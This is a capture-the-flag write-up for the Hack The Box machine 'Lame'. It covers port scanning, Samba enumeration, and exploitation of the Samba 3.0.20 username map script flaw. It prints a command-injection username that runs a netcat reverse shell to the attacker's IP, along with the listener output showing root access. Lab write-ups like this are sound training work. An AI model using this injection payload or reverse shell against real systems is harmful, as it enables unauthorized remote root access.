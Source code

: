 # Lame: 10.10.10.3

## Hints

- Searchsploit is your friend
- Some samba tools need to be configured to interact with older samba versions
- If you want to avoid metasploit, Google CVE + python/ruby
- No privesc needed

## nmap

Starting with the usual `nmap` scan.

```none
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## 21: Easy Win?

Version 2.3.4 of `vsftpd` is quite well known to have an easy `root` RCE... under most conditions. See [Exploiting VSFTPD v2.3.4 on Metasploitable 2](https://www.hackingtutorials.org/metasploit-tutorials/exploiting-vsftpd-metasploitable/) for more info. But the firewall is blocking the connection back to the attacker's system.

## Samba

The next step is samba. Reviewing the shares available.

```none
└─$ smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```

While enumerating of the service - I discovered an interesting vulnerability using the `searchsploit` tool:

```none
└─$ searchsploit 3.0.20       
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)  | unix/remote/16320.rb
```

More info is available on [ExploitDB](https://www.exploit-db.com/exploits/16320). Rather than use Metasploit - I tried searching for a Python/Ruby exploit. A couple were available - but after looking at the code, it seemed the attack was centered around the username input.

```ruby
username = "/=`nohup " + payload.encoded + "`"
```

Tried to connect using `smbclient` but kept getting that same error.

```none
└─$ smbclient -N //10.10.10.3/tmp                                   
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```

Turn out, for `smbclient` to work, we need to add an argument to allow old versions.

```
smbclient -N //10.10.10.3/tmp --option='client min protocol=NT1'
```

Then we can spawn a shell leveraging the exploitable `login` command. and entering a username with a reverse shell. Tried netcat with the following command:

```none
"./=`nohup nc -e /bin/sh 10.10.14.56 443`"
```

The full example:

```
└─$ smbclient -N //10.10.10.3/tmp --option='client min protocol=NT1'
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.56 443`"
Password: 
```

And, as usual, a listener on the attacker's system.

```
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.10.3] 38641
id
uid=0(root) gid=0(root)
```

## Flag: User

With root access, this is trivial:

```
ls /home
ftp
makis
service
user
wc -c /home/makis/user.txt
33 /home/makis/user.txt
```

## Flag: Root

With root access, this is trivial:

```
wc -c /root/root.txt
33 /root/root.txt
```

## Resources

- [HTB: Lame by 0xdf](https://0xdf.gitlab.io/2020/04/07/htb-lame.html#samba-exploit)
- [HackTheBox - Lame Writeup w/o Metasploit by Noobsec](https://www.noobsec.net/hackthebox/htb-lame/)
- [Hack The Box: Lame by Jeroen Vansaane](https://jeroenvansaane.com/htb/lame)
